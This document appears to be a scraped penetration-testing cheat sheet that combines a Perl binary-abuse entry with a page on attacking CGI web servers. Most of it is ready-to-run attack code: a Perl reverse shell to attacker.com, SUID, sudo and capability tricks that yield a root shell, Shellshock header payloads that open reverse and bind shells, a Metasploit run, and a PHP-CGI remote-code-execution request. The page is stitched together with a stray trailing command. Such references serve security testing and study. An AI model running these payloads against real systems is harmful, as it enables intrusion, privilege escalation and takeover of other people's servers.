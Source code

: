 .. / perl

##
#
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi
#
##

Shell Reverse shell File read SUID Sudo Capabilities
Shell
It can be used to break out from restricted environments by spawning an interactive system shell.

perl -e 'exec "/bin/sh";'
Reverse shell
It can send back a reverse shell to a listening attacker to open a remote network access.

Run nc -l -p 12345 on the attacker box to receive the shell.

export RHOST=attacker.com
export RPORT=12345
perl -e 'use Socket;$i="$ENV{RHOST}";$p=$ENV{RPORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
File read
It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

LFILE=file_to_read
perl -ne print $LFILE
SUID
If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

sudo install -m =xs $(which perl) .

./perl -e 'exec "/bin/sh";'
Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

sudo perl -e 'exec "/bin/sh";'
Capabilities
If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

cp $(which perl) .
sudo setcap cap_setuid+ep perl




CGI
Information
The CGI scripts are perl scripts, so, if you have compromised a server that can execute .cgi scripts you can upload a perl reverse shell (/usr/share/webshells/perl/perl-reverse-shell.pl), change the extension from .pl to .cgi, give execute permissions (chmod +x) and access the reverse shell from the web browser to execute it.
In order to test for CGI vulns it's recommended to use nikto -C all (and all the plugins)

ShellShock
ShellShock is a vulnerability that affects the widely used Bash command-line shell in Unix-based operating systems. It targets the ability of Bash to run commands passed by applications. The vulnerability lies in the manipulation of environment variables, which are dynamic named values that impact how processes run on a computer. Attackers can exploit this by attaching malicious code to environment variables, which is executed upon receiving the variable. This allows attackers to potentially compromise the system.

Exploiting this vulnerability the page could throw an error.

You could find this vulnerability noticing that it is using an old Apache version and cgi_mod (with cgi folder) or using nikto.

Test
Most tests are based in echo something and expect that that string is returned in the web response. If you think a page may be vulnerable, search for all the cgi pages and test them.

Nmap

Copy
nmap 10.2.1.31 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi
Curl (reflected, blind and out-of-band)
Copy
# Reflected
curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://10.1.2.32/cgi-bin/admin.cgi 2>/dev/null| grep 'VULNERABLE'
# Blind with sleep (you could also make a ping or web request to yourself and monitor that oth tcpdump)
curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep 5"' http://10.11.2.12/cgi-bin/admin.cgi
# Out-Of-Band Use Cookie as alternative to User-Agent
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.10.10/4242 0>&1' http://10.10.10.10/cgi-bin/user.sh
Shellsocker

Copy
python shellshocker.py http://10.11.1.71/cgi-bin/admin.cgi
Exploit
Copy
#Bind Shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 8
#Reverse shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.159.1 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80
#Reverse shell using curl
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.11.0.41/80 0>&1' http://10.1.2.11/cgi-bin/admin.cgi
#Reverse shell using metasploit
> use multi/http/apache_mod_cgi_bash_env_exec
> set targeturi /cgi-bin/admin.cgi
> set rhosts 10.1.2.11
> run
Proxy (MitM to Web server requests)
CGI creates a environment variable for each header in the http request. For example: "host:web.com" is created as "HTTP_HOST"="web.com"

As the HTTP_PROXY variable could be used by the web server. Try to send a header containing: "Proxy: <IP_attacker>:<PORT>" and if the server performs any request during the session. You will be able to capture each request made by the server.

Old PHP + CGI = RCE (CVE-2012-1823, CVE-2012-2311)
Basically if cgi is active and php is "old" (<5.3.12 / < 5.4.2) you can execute code.
In order t exploit this vulnerability you need to access some PHP file of the web server without sending parameters (specially without sending the character "=").
Then, in order to test this vulnerability, you could access for example /index.php?-s (note the -s) and source code of the application will appear in the response.

Then, in order to obtain RCE you can send this special query: /?-d allow_url_include=1 -d auto_prepend_file=php://input and the PHP code to be executed in the body of the request.
Example:

Copy
curl -i --data-binary "<?php system(\"cat /flag.txt \") ?>" "http://jh2i.com:50008/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input"
More info about the vuln and possible exploits: https://www.zero-day.cz/database/337/, cve-2012-1823, cve-2012-2311, CTF Writeup Example.


./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
